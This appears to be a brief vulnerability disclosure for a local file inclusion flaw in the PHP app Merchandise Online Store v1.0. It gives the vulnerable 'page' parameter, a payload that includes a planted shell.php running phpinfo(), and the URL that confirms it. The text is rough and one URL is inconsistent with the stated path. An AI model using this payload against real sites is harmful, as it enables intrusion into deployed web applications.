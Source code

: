 # Merchandise Online Store v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: ip/vloggers_merch/admin/?page=

Vulnerability location: ip/vloggers_merch/admin/?page=, page

Payload: ip/vloggers_merch/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/166879194-6fb312af-fd3e-4df6-a8ef-fb2cdc6688b4.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/166879125-9036ece8-1c00-4a1f-b07d-81e46e432065.png)

And visit http://ip/vloggers_merch/?admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166878978-3e2fcb95-b23f-40a4-bd24-c7a235bc8c9f.png)
